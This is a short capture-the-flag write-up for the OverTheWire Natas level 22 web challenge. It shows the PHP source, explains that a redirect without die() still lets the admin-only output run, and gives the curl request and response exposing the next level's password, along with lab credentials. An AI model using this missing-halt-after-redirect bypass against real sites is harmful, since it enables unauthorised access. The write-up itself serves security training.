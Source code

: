 # Natas-22

# Source :

```php
<?
session_start();
if(array_key_exists("revelio", $_GET)) {
// only admins can reveal the password
				if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
				header("Location: /");
				}
}

if(array_key_exists("revelio", $_GET)) {

    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
}
?>
```

If there is a get request to the application with revelio parameter set and $_SESSION[”admin”] = 1
we will get the password . If $_SESSION[”admin”]=1 is not in our session file . we will be redirected to  / . But since its not using die() the next if(condition) will be executed and we can intercept that using burp or curl before the redirection occurs .

## Request

```php
curl -X GET [http://natas22.natas.labs.overthewire.org/?revelio=1](http://natas22.natas.labs.overthewire.org/?revelio=1) -u 'natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ'
```

## Response

```html
<body>
<h1>natas22</h1>
<div id="content">\
You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```

```
natas23 : D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```
